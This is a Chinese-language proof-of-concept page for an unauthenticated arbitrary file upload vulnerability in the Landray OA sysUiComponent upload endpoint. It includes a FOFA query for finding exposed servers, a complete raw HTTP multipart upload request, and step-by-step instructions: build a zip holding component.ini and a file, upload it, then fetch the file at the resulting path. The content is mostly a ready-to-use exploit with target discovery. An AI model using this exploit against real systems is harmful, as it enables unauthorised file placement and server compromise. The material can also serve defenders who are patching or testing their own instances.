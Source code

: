 ## 蓝凌OAsysUiComponent 文件存在任意文件上传漏洞

## fofa
```
app="Landray-OA系统"

```


## poc
直接访问路径，发现未授权文件上传 http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
![c9857f5370d4abd1547fa7cb1988a18a](../../images/ee361dae-cfa2-4eae-910f-501331731347.png)

```
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```
## 漏洞复现
创建component.ini文件，内容为：
```
id=2023
name=check.txt
```
创建上传check.txt文件
```
1111
```
然后使用压缩软件，将两个文件压缩成一个压缩包，文件名check.zip


最后上传即可。上传成功后访问路径/resource/ui-component/2023/check.txt


## 漏洞来源
```
https://mp.weixin.qq.com/s/xhwmFuItG8ZoiuGrwR5bnw
```



